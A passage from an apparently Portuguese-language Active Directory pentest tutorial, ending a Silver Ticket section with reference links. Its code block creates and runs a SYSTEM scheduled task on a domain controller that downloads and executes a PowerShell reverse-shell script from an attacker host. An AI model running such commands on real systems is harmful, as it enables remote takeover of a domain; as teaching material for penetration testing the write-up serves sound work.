 ```powershell
schtasks /create /S AB.DC.DOMINIO.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "shell_pra_mim" /TR "powershell.exe -c 'iex(new-object net.webclient).downloadstring(''http://meu.ip/Invoke-PowerShellTCP.ps1'')'"

# Executamos ela
schtasks /Run /S AB.DC.DOMINIO.local /TN "shell_pra_mim"

# E é pra ter recebido o reverse shell na janela do powercat!
```

Mais informações de como esse ataque funciona você encontra no meu blog [Silver Ticket](https://0x4rt3mis.github.io/activedirectory/2020/12/22/Active-Directory-Explorando-Trusts-Tickets/)

## Referencias

Bloodhound

https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/

PowerUpSQL

https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/

